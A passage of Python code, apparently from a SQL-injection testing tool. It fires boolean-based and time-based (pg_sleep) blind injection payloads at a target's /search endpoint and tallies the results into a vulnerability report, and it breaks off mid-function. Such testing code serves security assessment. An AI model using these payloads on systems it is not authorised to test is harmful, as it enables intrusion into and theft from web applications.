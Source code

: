 ```python
                results.append({
                    "payload": payload,
                    "response_length": len(response.text),
                    "status_code": response.status_code
                })
            
            return results
        
        return []
    
    def test_blind_injection(self):
        """Test for blind SQL injection"""
        # Boolean-based blind injection
        true_payload = "1' AND '1'='1"
        false_payload = "1' AND '1'='2"
        
        true_response = self.session.get(f"{self.base_url}/search", params={"q": true_payload})
        false_response = self.session.get(f"{self.base_url}/search", params={"q": false_payload})
        
        # Time-based blind injection
        start_time = time.time()
        time_payload = "1'; SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END --"
        time_response = self.session.get(f"{self.base_url}/search", params={"q": time_payload})
        end_time = time.time()
        
        return {
            "boolean_blind": len(true_response.text) != len(false_response.text),
            "time_blind": (end_time - start_time) > 2,
            "response_time": end_time - start_time
        }
    
    def generate_report(self):
        """Generate comprehensive test report"""
        report = {
            "target": self.base_url,
            "timestamp": time.strftime("%Y-%m-%d %H:%M:%S"),
            "tests": {}
        }
        
        print(f"Testing {self.base_url}...")
        
        # Run all tests
        report["tests"]["authentication_bypass"] = self.test_authentication_bypass()
        report["tests"]["union_injection"] = self.test_union_injection()
        report["tests"]["blind_injection"] = self.test_blind_injection()
        
        # Calculate vulnerability score
        vulnerabilities = 0
        total_tests = 0
        
        for test_type, results in report["tests"].items():
            if isinstance(results, list):
                for result in results:
                    total_tests += 1
                    if result.get("vulnerable"):
                        vulnerabilities += 1
            elif isinstance(results, dict):
                for key, value in results.items():
                    if isinstance(value, bool):
                        total_tests += 1
                        if value:
                            vulnerabilities += 1
        
```